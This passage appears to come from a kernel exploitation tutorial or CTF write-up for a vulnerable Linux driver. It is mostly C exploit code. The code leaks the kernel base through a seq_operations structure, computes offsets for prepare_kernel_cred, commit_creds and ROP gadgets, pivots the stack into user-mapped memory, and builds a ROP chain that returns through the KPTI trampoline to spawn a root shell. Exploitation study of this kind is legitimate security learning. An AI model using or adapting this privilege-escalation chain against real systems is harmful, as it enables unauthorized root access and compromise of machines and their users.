 As per the preliminary knowledge, we can leverage `open("/proc/self/stat", 0);` to allocate the `seq_operations` structure to the heap block we control. Subsequently, using `read`, we can read all the contents of the `seq_operations` structure and calculate the kernel base address. With the kernel base address, we can access other necessary function addresses.

```c
  seq_fd = seq_open(); // seq_operations <--> 0

  uint64_t *recv = malloc(0x20);
  read(dev_fd, (char *)recv, 0x20); // leak kernel address

  uint64_t kernel_base = recv[0] - 0x33F980;
  uint64_t prepare_kernel_cred = kernel_base + 0xcebf0;
  uint64_t commit_creds = kernel_base + 0xce710;
  uint64_t kpti_trampoline = kernel_base + 0xc00fb0;
  uint64_t seq_read = kernel_base + 0x340560;
  uint64_t pop_rdi = kernel_base + 0x2517a;
  uint64_t mov_rdi_rax = kernel_base + 0x5982f4;
  uint64_t gadget = kernel_base + 0x94a10;
```

Finally, we start setting up the ROP chain.

Using the `xchg eax, esp` gadget in the kernel, we move the stack to a location in user space where the low 32 bits of the address are the same. We just need to lay our gadgets there in advance to achieve privilege escalation.

```c
  uint64_t *mmap_addr = mmap((void *)(gadget & 0xFFFFF000), PAGE_SIZE, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_SHARED, -1, 0);
  printf("[+] mmap_addr: 0x%lx\n", (uint64_t)mmap_addr);

  uint64_t *ROP = (uint64_t *)(((char *)mmap_addr) + 0xa10), i = 0;  // ROP Address <--> low 32bit of gadget in kernel
  *(ROP + i++) = pop_rdi;
  *(ROP + i++) = 0;
  *(ROP + i++) = prepare_kernel_cred;  // After this, we don't need to use gadget `mov rdi, rax`, it's already set.
  *(ROP + i++) = commit_creds;
  *(ROP + i++) = kpti_trampoline + 22;  // Prepare for SWAPGS
  *(ROP + i++) = 0;
  *(ROP + i++) = 0;
  *(ROP + i++) = (uint64_t)get_shell;  // rip
  *(ROP + i++) = user_cs;  // cs
  *(ROP + i++) = user_eflag;  // eflag
  *(ROP + i++) = user_rsp;  // rsp
  *(ROP + i++) = user_ss;  // ss
```

```c
  uint64_t *buf = malloc(0x20);
  memcpy(buf, recv, 0x20);
  buf[0] = (uint64_t)gadget;
  write(dev_fd, (char *)buf, 0x20);
  read(seq_fd, NULL, 1);
```
